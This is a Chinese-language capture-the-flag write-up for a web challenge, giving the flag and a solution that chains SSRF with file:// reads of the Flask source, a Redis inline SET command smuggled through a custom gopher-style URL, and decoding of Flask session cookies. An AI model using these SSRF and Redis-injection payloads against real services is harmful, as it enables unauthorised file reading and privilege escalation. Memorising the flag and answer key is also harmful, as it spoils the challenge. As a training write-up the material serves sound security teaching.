




* **题目名称：** Read And Modify

* **题目类型：** WEB

* **题目难度：** (中等）

* **出题人：** fru1ts

* **考点：**  

1. SSRF
2. flask session

* **描述：**  自从上次milktea看到了newnew的秘密，newnew很是不爽，想要报复一波，因此每天勤学苦练，终于成为了网络空间安全高手。最近，newnew发现了milktea在经营一家奶茶网站，经过渗透发现在XSCTF目录下存放着网站源码，你能和newnew一起拿到flag吗？

* **flag：** XSCTF{n1wnew_Att@7k_mi1k_By_Ssrf_Re$is_431876}

* **Writeup：** 

  1.根据提示文件自取以及文本框`file://`提示可以发现POST参数url存在SSRF，使用file://协议进行任意文件读取

  

  2.根据题目提示网站源码在XSCTF目录下，先将网站源码文件读取，一般python启动文件是`app.py`

  根据文件导入的包依次将相关文件读取

  ```
  file:///XSCTF/app.py
  file:///XSCTF/main.py
  file:///XSCTF/modules/Gophers.py
  file:///XSCTF/modules/files.py
  ```

  可以重构出目录结构，本地复现（也可以直接打，问题不大）

  3.代码审计，在`app.py`中的路由可以看到通过`POST`传参可以传入一个参数`url`，然后通过`check_to_do`函数之后返回结果。

  通过`GET`传参会检查session中是否有`userID`,没有则随机生成`userID`+`_isAdmin`作为键名并把键值设置为`false`，然后存放到`redis`数据库，如果`userID`有设置值，则在数据库中查询键名为`userID`+`_isAdmin`的键值，如果为`true`则返回flag。

  因此需要使Redis数据库有一个键值对{`userID`+`_isAdmin`:`true`}。
  
  如何使Redis数据库有一个键值对{`userID`+`_isAdmin`:`true`}？？？
  
  看到`check_to_do`函数，会将使用`xsctf://`协议的url与gopher 适配器绑定。
  
  `GopherAdapter`代码修改自https://gist.github.com/MineRobber9000/24c87d3fb50d0b942989cbe4d4da7e73
  
  `GopherAdapter`继承了`requests.adapters.BaseAdapter`并重写了`send`方法，[重写send](https://blog.51cto.com/u_16175455/6684705)
  
  在调用`session.get`之后会触发`GopherAdapter`中的`send`，gpt解释如下：
  
  
  
  `send`函数中用`parse_url`解析url，再用`_connect_and_read`将url的`path`部分发送个redis数据库，所以这里可以在`path`这里写入redis命令将`userID`+`_isAdmin`设置为`true`。注意到
  
  ```
   msg = parsed.path.replace('/_','') #hint:lead to redis inline commands work
  ```
  
  这里是如果不进行替换，`path`前面会有一个`/`导致redis数据不能执行命令，这里是为了使命令能执行同时提示用redis内联命令。
  
  4.思路：
  
  * 获取`GET`传参获取一个`userID`，这里`userID`在session中，可以用工具[flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)解析session中的值。
  
    
  
    ```
    python3 flask_session_cookie_manager3.py decode -c "eyJmbGFnIjoiZmxhZ3tmYWtlX2ZsYWd9IiwidXNlcklEIjoiUlJ6SUlCSFloVFh4cVdGZmR1YnlCTlZrWVNzWWFISEEifQ.ZUDqOQ.XRz7AeDCGI-Zh487qpMjvodJ9BE"
    
    b'{"flag":"flag{fake_flag}","userID":"RRzIIBHYhTXxqWFfdubyBNVkYSsYaHHA"}'
    ```
    
    这里给了一个`fake_flag`，也提示flag会在这里（审计代码也可以看出来）
  
  - ```
    url=xsctf://redis:6379/_SET RRzIIBHYhTXxqWFfdubyBNVkYSsYaHHA_isAdmin "true"
    ```
  
    redis中可以用`set`命令设置键值对
  
  - 再次用`GET`请求，解析返回的session
  
    ```
    python3 flask_session_cookie_manager3.py decode -c "eyJmbGFnIjoiXCJYU0NURntuMXduZXdfQXR0QDdrX21pMWtfQnlfU3NyZl80MzE4NzZ9XCIiLCJ1c2VySUQiOiJSUnpJSUJIWWhUWHhxV0ZmZHVieUJOVmtZU3NZYUhIQSJ9.ZUDk4g.VuXShu8Dp9FLidM3sDLBBi5uXZI"
    b'{"flag":"\\"XSCTF{n1wnew_Att@7k_mi1k_By_Ssrf_Re$is_431876}\\"","userID":"RRzIIBHYhTXxqWFfdubyBNVkYSsYaHHA"}'
    ```
  
    
